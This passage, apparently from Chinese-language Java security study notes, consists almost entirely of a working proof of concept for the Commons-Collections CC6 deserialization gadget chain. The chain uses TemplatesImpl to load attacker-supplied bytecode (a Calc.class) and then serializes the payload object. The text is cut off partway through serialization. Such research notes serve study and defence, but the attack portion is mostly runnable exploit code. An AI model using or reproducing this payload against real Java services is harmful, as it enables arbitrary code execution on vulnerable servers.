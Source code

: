 ```java
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

# CC6实现TemplatesImpl

也是稍作改动就行

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class TemplateImpl_8u71 {
    private static void setFiledValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        byte[] codes = Files.readAllBytes(Paths.get("E:\\研究生\\JavaSec\\code\\target\\classes\\Calc.class"));
        byte[][] _bytecodes = new byte[][] {codes};
        TemplatesImpl templates = new TemplatesImpl();
        setFiledValue(templates, "_bytecodes", _bytecodes);
        setFiledValue(templates, "_name", "whatever");
        setFiledValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)
        };
        ChainedTransformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap,"Troy3e");
        HashMap hashMap = new HashMap();
        hashMap.put(tme,"Troy3e");
        outerMap.remove("Troy3e");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain,transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
```